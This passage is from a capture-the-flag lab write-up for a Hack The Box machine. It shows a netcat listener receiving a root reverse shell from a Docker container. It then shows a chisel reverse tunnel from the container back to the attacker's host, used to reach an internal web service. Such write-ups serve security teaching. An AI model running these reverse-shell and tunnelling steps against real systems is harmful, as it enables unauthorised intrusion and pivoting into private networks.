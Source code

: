 ```bash
➜  opensource nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.15.17] from (UNKNOWN) [10.129.69.218] 46477
/app # id && hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
a18fa0f4252c
```

-----------
### Step 3
We're in a docker container.. both `capsh` and `getcap` is unavailable, we don't have permissions to mount to the host file system. We are unable to SSH to the host with found creds.. but when using `wget` to enumerate `http://172.17.0.1` we find a webfront where user `dev01` is a member - `http://opensource.htb:3000/dev01`. 

```bash
➜  chisel_1.7.7 ./chisel_1.7.7_linux_amd64 server -p 3333 -reverse
2022/05/24 10:26:12 server: Reverse tunnelling enabled
2022/05/24 10:26:12 server: Fingerprint 0w1VYvw5UN5G517RVqpm0jScfuRrA5gZN3N7h5iXI10=
2022/05/24 10:26:12 server: Listening on http://0.0.0.0:3333
```

```bash
/app/public/uploads # ./chisel_1.7.7_linux_amd64 client 10.10.15.17:3333 R:127.0.0.1:3000:172.17.0.1:3000
2022/05/24 08:26:43 client: Connecting to ws://10.10.15.17:3333
2022/05/24 08:26:43 client: Connected (Latency 43.290943ms)
```


![](/assets/images/htb-writeup-opensource/opensource01.png)
